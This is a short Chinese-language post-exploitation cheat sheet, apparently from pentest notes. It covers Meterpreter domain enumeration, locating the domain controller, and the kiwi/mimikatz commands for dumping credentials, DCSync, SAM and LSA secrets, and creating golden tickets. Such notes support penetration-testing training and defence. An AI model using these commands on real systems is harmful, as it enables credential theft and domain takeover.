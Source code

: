 

#### 域信息收集

```shell
run post/windows/gather/enum_domain
```

![image-20230324155246737](../../../images/image-20230324155246737-1686283281461.png)

主机shell下

```shell
chcp 65001 #解决乱码
ipconfig /all # DNS后缀判断域是否存在
net time /domain # 判断域控
nslookup time_domain # 获取域控ip
```



#### 密码获取

```shell
load kiwi
```

![image-20230330143036863](../../../images/image-20230330143036863-1686283281461.png)

```shell
creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码
```

##### 调用mimikatz

> 在安装了KB2871997补丁或者系统版本大于windows server 2012时，系统的内存中就不再保存明文的密码，这样利用mimikatz就不能从内存中读出明文密码了。mimikatz的使用需要administrator用户执行，administrators中的其他用户都不行。

[mimikatz命令](https://tttang.com/archive/1616/)

[后渗透\]Mimikatz使用大全 - 肖洋肖恩、 - 博客园](https://www.cnblogs.com/-mo-/p/11890232.html)
